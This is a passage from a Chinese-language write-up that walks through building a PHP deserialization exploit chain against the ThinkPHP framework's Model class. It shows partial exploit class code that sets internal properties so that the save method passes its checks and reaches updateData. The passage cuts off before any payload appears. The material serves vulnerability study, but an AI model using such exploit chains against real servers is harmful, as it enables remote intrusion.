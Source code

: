 ```php
        }

    }

}
```



#### 3）跟进save方法

在save方法中，我们要考虑进入updateData()方法，所以需要绕过前面的if判断语句。首先要让`$this->isEmpty()`返回false，我们进入isEmpty方法查看。

isEmpty方法体逻辑很简单，只要$this->data属性不为空就可以返回一个false，那么我们暂时让 `$this-\>data=['']` 。

继续完善exploit：

```php
<?php

namespace think{

    abstract class Model{

        private $lazySave = false;

        private $data = [];

        function __construct()

        {

            $this->lazySave = true;

            $this->data = ['xxx'];

        }

    }
}
```

回到save方法，if判断的第二个条件是不能让`$this->trigger`方法返回false，我们进入$this->trigger方法查看。

在trigger方法体开始就有个判断，只要让 $this->withEvent=false ，那么，trigger方法就返回true。

这样的话，save方法的第一个if判断语句就绕过了，进入下面的三元运算：

```
$result = $this->exists ? $this->updateData() : $this->insertData($sequence);
```

`$this->exists`是我们可以控制的，只需让` $this->exists=true `就能进入`$this->updateData()`这个方法。

继续完善exploit：

```php
<?php

namespace think{

    abstract class Model{

        private $lazySave = false;

        private $data = [];

        protected $withEvent = true;

        private $exists = false;
```
